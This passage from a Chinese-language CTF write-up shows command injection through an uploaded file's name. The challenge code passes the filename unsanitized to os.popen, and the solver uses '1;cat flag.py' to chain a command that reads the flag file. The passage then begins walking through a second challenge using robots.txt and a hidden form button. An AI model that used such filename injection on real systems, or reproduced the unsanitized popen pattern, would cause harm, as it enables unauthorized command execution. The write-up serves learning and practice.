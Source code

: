 ```python
        app.run(host='0.0.0.0',port=80,debug=False)
```

突破点：

```python
cmd="python3 tsteg.py upload/"+f.filename
result=os.popen(cmd).read()
```

这里可以进行 python 命令执行，只需要改一个文件名即可

```python
filename="1;cat flag.py"
```

我们使用分号 ; 进行命令分隔，然后 cat即可

![image-20230306173101904](https://s2.loli.net/2023/03/06/CYUbksMRc4GNyQi.png)







### Is_Not_Obfuscate            

查看源码

![image-20230306173407767](https://s2.loli.net/2023/03/06/lpxroTZb2cEi6J1.png)



提示我们访问 `robots.txt`文件

![image-20230306173829040](https://s2.loli.net/2023/03/06/gi2JaMZxsrSOUzy.png)

访问 `/lib.php?flag=0` 什么东西都没有，我们将 0 改为 1：

![image-20230306173943135](https://s2.loli.net/2023/03/06/I5WVKj8uXY6JkMO.png)

发现一大堆编码



没有其他思路，我们继续查看首页：

![image-20230306174236577](https://s2.loli.net/2023/03/06/KJZQPw79UNV51IA.png)



我们发现隐藏了一个 执行按钮，我们将value改为test，然后我们再将上述获得的编码放入input中：

![image-20230306174540414](https://s2.loli.net/2023/03/06/CDUlsbvkK93u4wJ.png)



注意：需要将上述编码进行url编码一次，我们获得如下源码：

![image-20230306174745354](https://s2.loli.net/2023/03/06/vxCYWIrzQmAnuTp.png)
